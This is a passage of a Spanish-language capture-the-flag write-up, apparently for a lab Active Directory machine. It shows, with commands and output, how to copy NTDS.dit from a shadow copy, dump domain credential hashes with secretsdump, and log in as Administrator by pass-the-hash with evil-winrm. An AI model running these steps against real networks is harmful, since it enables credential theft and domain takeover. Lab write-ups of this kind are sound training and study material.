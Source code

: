 ```
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Caroline.Robinson> diskshadow /s backup
[...]
Alias cdrive for shadow ID {3535ddd6-95f6-401d-85a0-46d1faee8cba} set as environment variable.
[...]
```

#### Copia del NTDS.dit

Con la shadow copy montada en E:, copiamos el archivo NTDS.dit:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson> robocopy /b E:\Windows\ntds . ntds.dit

   ROBOCOPY     ::     Robust File Copy for Windows

Started : Tuesday, September 30, 2025 8:26:17 PM
Source : E:\Windows\ntds\
Dest : C:\Users\Caroline.Robinson\Documents\

Files : ntds.dit

New File    16.0 m    ntds.dit
```

#### Extracción de Hashes del NTDS.dit

Descargamos el NTDS.dit y ejecutamos secretsdump:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

Salida:

```
[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from ntds.dit
Administrator:aes256-cts-hmac-sha1-96:ad08cbabedf f5acb70049bef721524a23375708cadefcb788704ba00926944f4
```

### Pass-the-Hash como Administrator

Con el hash NTLM del Domain Administrator, nos conectamos mediante Evil-WinRM:

```bash
evil-winrm -i 10.129.129.146 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```
